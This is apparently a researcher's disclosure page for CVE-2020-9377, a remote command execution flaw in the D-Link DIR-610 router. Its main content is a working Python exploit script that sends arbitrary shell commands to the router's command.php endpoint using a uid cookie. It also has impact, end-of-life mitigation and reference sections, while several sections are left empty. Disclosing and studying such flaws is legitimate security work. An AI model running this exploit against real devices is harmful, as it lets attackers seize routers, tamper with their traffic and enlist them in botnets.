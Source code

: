 ```yaml
---
layout: content
title: 'CVE-2020-9377 - Remote Code Execution (RCE) on D-LINK 610 Router'
description: ''
og_image: https://heitorgouvea.me/images/publications/
---
```


### Summary

---

### Description

---


### Exploit

```python
#!/usr/bin/python

import os
import sys
import urllib2
import threading
import time

def main(host, port, uid, command):
    request = urllib2.Request('http://%s:%s/command.php' % (host, port), 'cmd=%s' % command, { 'Cookie': 'uid=%s' % uid })
    print urllib2.urlopen(request).read()

if __name__ == '__main__':
    [host, port, uid, command] = sys.argv[1:5]
    main(host, port, uid, command)
```

---

### Impact

A malicious agent can execute commands on the router system remotely and take control of it and subvert such router to work/perform actions that it wants, using the same for botnets, traffic infection actions and other possibilities.

---
 
### Mitigation

While D-Link is aware of vulnerabilities involving DIR-610, these products have reached End of Life (EoL)/End of Support (EoS) and there is no extended support or development for them. D-Link will not be able to resolve device or firmware issues as all development and customer support has ceased.

The DIR-610 Rev. Ax reached its End of Support Date in 2014, it is no longer supported and firmware development has stopped, all consumers still using the product should retire it and immediately replace the device.

---

### Conclusion



---

### References

1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9377
2. https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10182
3. https://www.dlink.com.br/produto/dir-610/
4. https://owasp.org/www-community/attacks/Command_Injection
5. https://portswigger.net/web-security/os-command-injection